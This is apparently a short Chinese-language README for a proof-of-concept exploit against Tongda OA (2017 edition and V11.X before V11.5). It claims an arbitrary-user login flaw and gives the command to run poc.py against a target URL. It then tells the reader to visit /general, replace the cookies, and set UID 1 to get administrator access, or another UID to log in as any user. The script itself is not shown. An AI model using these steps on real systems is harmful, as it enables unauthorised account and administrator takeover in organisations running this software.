# 通达 OA 任意用户登录

影响版本:
- 通达 OA 2017 版
- 通达 OA V11.X < V11.5

exp:
```
python3 poc.py -v 版本 -url url
访问/general替换cookies，默认61行UID: int(1)为管理员
更换UID即可登录任意用户，UID的值在数据库
```

[@NS-Sp4ce](https://github.com/NS-Sp4ce/TongDaOA-Fake-User)